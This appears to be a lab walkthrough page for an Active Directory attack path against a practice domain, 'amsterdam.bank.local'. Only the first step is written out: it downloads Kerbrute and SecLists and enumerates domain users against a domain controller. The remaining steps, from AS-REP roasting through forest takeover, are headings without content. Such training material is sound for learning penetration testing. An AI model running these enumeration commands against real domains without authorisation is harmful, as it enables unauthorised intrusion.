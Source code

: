 # Manual

## Attack path visualized

![](<../../../../.gitbook/assets/image (68).png>)

### 1. Enumerate Users

**Task: Enumerate valid domain users.**

It is possible to enumerate valid domain users by sending TGT requests to the DC. One tool to do this is [Kerbrute](https://github.com/ropnop/kerbrute). But before we can use this tool we need a list of valid usernames. A repository with a lot of lists for these kind of things is [SecLists](https://github.com/danielmiessler/SecLists).

1. Download the required tools:

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64 -O kerbrute
chmod +x kerbrute
git clone https://github.com/danielmiessler/SecLists
```

2\. After downloading the tool and the username list, run Kerbrute against the domain `amsterdam.bank.local` and DC `10.0.0.3`. Pipe the command to `tee` to save the output to the txt file `username_enum.txt`.&#x20;

```
./kerbrute userenum -d amsterdam.bank.local --dc 10.0.0.3 /opt/SecLists/Usernames/xato-net-10-million-usernames.txt | tee username_enum.txt
```

![](<../../../../.gitbook/assets/image (72).png>)

3\. To only get a list of usernames execute the following which will cut the output to only get the usernames, changes everything to lowercase and sorting for unique entries:

```
cat username_enum.txt | grep bank.local | cut -d " " -f 8- | cut -d "@" -f 1 | sed 's/./\L&/g' | sort -u > users.txt
```

```
cat users.txt                                                                                                       
administrator
bank
bob
chris
dave
david
john
mark
mike
richard
robert
steve
thomas
```

### 2. AS-REP roast

**Task: Check if any of the valid users are vulnerable to a kerberos vulnerability.**



### 3. Access SQL Server

**Task: Check if the user can access any system or service.**



### 4. Become sysadmin

**Task: Escalate privileges to sysadmin.**



### 5. Execute commands

**Task: Get a shell.**



### 6. Privesc RBCD

**Task: Escalate privileges on the machine with a delegation attack.**



### 7. Abuse SQL Link

**Task: Enumerate SQL Links to hop across trusts.**



### 8. UNC Path injection

**Task: Perform a UNC Path injection and capture the hash of SQL Service user.**



### 9. Crack SQL account hash

**Task: Crack the hash of the SQL service user.**



### 10. ACL - Write Owner & RCBCD

**Task: Check for ACL's and get access to the system.**



### 11. Dumping DPAPI

**Task: Look for saved credentials on the machine (DPAPI).**



### 12. Privileged groups

**Task: Become domain admin by abusing the "Backup Operators" group.**



### 13. Kerberoast

**Task: Check for interesting user attributes across the trust to `bank.local`.**



### 14. Take over Foresat

**Task: Take over the `bank.local` forest.**

